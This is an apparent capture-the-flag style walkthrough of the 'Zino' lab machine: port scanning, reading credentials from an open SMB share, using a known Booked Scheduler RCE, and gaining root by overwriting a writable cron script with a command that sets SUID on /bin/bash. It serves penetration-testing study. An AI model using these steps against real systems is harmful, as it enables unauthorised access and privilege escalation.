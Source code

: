 # Zino

```
$ nmap -p- --min-rate 3000 -Pn 192.168.157.64 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-16 09:52 +08
Nmap scan report for 192.168.157.64
Host is up (0.17s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8003/tcp open  mcreport
```

### FTP + SMB Enumeration

FTP doesn't allow for anonymous logins, but SMB does have shares we can read.&#x20;

```
$ smbmap -H 192.168.157.64         
[+] IP: 192.168.157.64:445      Name: 192.168.157.64                                    
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        zino                                                    READ ONLY       Logs
        print$                                                  NO ACCESS       Printer Drivers
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

We can login to `zino`:

```
$ smbclient //192.168.157.64/zino                                             
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul 10 03:11:49 2020
  ..                                  D        0  Tue Apr 28 21:38:53 2020
  .bash_history                       H        0  Tue Apr 28 23:35:28 2020
  error.log                           N      265  Tue Apr 28 22:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 21:38:53 2020
  local.txt                           N       33  Sun Jul 16 09:51:53 2023
  .bashrc                             H     3526  Tue Apr 28 21:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 22:17:02 2020
  .profile                            H      807  Tue Apr 28 21:38:53 2020
  misc.log                            N      424  Tue Apr 28 22:08:15 2020
  auth.log                            N      368  Tue Apr 28 22:07:54 2020
  access.log                          N     5464  Tue Apr 28 22:07:09 2020
  ftp                                 D        0  Tue Apr 28 22:12:56 2020

                7158264 blocks of size 1024. 4725468 blocks available
```

The `misc.log` contained credentials for some software:

```
$ cat misc.log  
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

### Booked RCE

The only web port was port 8003, and it led us to this login page:

<figure><img src="../../../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

There are some exploits for this:

```
$ searchsploit booked            
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execution (Metaspl | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (A | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directory Traversal | php/webapps/48428.txt
----------------------------------------------------------- ---------------------------------
```

We can use the credentials we got earlier to have RCE:

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell through `nc`:

<figure><img src="../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Cronjob Exploit --> Root

I downloaded `linpeas.sh` onto the machine and ran a scan. It found a cronjob we could hijack:

<figure><img src="../../../.gitbook/assets/image (51).png" alt=""><figcaption></figcaption></figure>

We can write to this file:

```
www-data@zino:/tmp$ ls -la /var/www/html/booked/cleanup.py
-rwxrwxrwx 1 www-data www-data 164 Apr 28  2020 /var/www/html/booked/cleanup.py
```

Here's the script contents:

```
www-data@zino:/home/peter$ cat /var/www/html/booked/cleanup.py 
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /var/www/html/booked/uploads/reservation/* ')
except:
        print 'ERROR...'
sys.exit(0)
```

Since there's a `sys.exit(0)` function at the end, we cannot just append code. What we can do is just create a completely new `cleanup.py` file within that directory.&#x20;

```bash
echo 'import os;os.system("chmod u+s /bin/bash")' > cleanup.py
```

Then we can just wait for a bit for the script to execute.&#x20;

<figure><img src="../../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>
